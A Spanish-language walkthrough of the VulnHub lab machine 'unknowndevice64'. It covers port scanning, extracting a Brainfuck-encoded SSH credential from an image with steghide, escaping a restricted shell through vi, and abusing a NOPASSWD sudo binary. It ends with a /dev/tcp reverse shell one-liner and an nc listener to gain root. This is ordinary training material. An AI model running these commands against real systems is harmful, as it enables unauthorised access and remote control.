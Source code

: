 # Write Up unknowndevice64 VulnHub

### Escaneo de puertos

```shell
nmap -p- --min-rate 5000 -sV <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-13 03:23 EDT
Nmap scan report for 192.168.195.135
Host is up (0.00046s latency).

PORT      STATE SERVICE VERSION
1337/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:af:04:6d:f1:8c:59:3a:d6:e1:96:b7:f7:fc:57:83 (RSA)
|   256 12:68:4c:6b:96:1e:51:59:32:8a:3d:41:0d:55:6b:d2 (ECDSA)
|_  256 da:3e:28:52:30:72:7a:dd:c3:fb:89:7e:54:f4:bb:fb (ED25519)
31337/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.14)
|_http-title:    Website By Unknowndevice64   
|_http-server-header: SimpleHTTP/0.6 Python/2.7.14
MAC Address: 00:0C:29:A2:21:34 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.46 ms 192.168.195.135

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.20 seconds
```

Si vamos al codigo de la pagina en el puerto `31337` vemos que hay una imagen en un comentario por lo que si vamos a la siguiente ruta...

```
http://<IP>:31337/key_is_h1dd3n.jpg
```

Veremos una imagen que nos vamos a descargar y utilizar el siguiente comando para que nos extraiga de la imagen lo que contenga...

```shell
steghide extract -sf <IMAGE>
```

Y como salvoconducto (password) pondremos la palabra que aparece en la pagina `h1dd3n` y nos extraera un .txt

```
++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>>+++++++++++++++++.-----------------.<----------------.--.++++++.---------.>-----------------------.<<+++.++.>+++++.--.++++++++++++.>++++++++++++++++++++++++++++++++++++++++.-----------------.
```

Si decodificamos esto quedaria...

```
ud64:1M!#64@ud
```

Por lo que es un usuario y contraseña:

```
User: ud64
Password: 1M!#64@ud
```

Nos conectaremos por ssh...

```shell
ssh ud64@<IP> -p 1337
```

Tendremos una restricted bash por lo que escapamos de la siguiente manera...

```
vi
:!/bin/bash
<ENTER>
```

Y ya habriamos escapado, despues el PATH esta roto, por lo que haremos...

```shell
export PATH=<$PATH>
```

Si hacemos `sudo -l` veremos que tenemos lo siguiente...

Info:

```
User ud64 may run the following commands on unknowndevice64_v1: 
(ALL) NOPASSWD: /usr/bin/sysud64
```

Podemos ejecutar ese binario como `root` por lo que haremos lo siguiente...

```shell
sudo /usr/bin/sysud64 /bin/bash
```

Te llevara a una shell bastante rara y ahi pegamos un codigo de Reverse Shell...

```shell
sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Estando a la escucha...

```shell
nc -lvnp <PORT>
```

Una vez que lo enviemos y estando a la escucha nos dara una shell como `root` por lo que leemos la flag de root y ya estaria.
